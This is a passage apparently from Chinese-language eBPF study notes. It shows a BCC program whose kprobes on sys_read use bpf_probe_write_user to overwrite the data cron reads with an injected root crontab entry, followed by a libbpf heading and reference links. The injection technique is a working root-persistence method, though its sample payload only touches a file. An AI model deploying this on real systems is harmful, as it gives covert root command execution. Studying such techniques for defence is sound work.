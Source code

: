 ```python
  opentmp.delete(&pid);
  bpf_trace_printk("close fd %d\\n", fd);
  return 0;
}

int kprobe__sys_read(struct pt_regs *ctx, int fd, char *buf, size_t count)
{
  u32 pid = bpf_get_current_pid_tgid() >> 32;
  struct data_t *d;
  d = opentmp.lookup(&pid);
  if(!d) return 0;
  if(d->fd != fd || d->state == 5) return 0;
  d->buf = (char*)PT_REGS_PARM2(ctx);
  d->state = 4;
  bpf_trace_printk("read crontab\\n");
  return 0;
}

int kretprobe__sys_read(struct pt_regs *ctx)
{
  u32 pid = bpf_get_current_pid_tgid() >> 32;
  struct data_t *d;
  d = opentmp.lookup(&pid);
  if(!d) return 0;
  if(d->state != 4) return 0;
  bpf_trace_printk("inject crontab\\n");
  char payload[] = "* * * * * root /bin/bash -c 'touch /tmp/cron_hack'\\n#";
  bpf_probe_write_user(d->buf, payload, sizeof(payload)-1);
  return 0;
}
"""
b = BPF(text=prog)
b.trace_print()
```

## libbpf
> 参考：https://nakryiko.com/posts/<br>
> CO-RE支持：https://github.com/aquasecurity/btfhub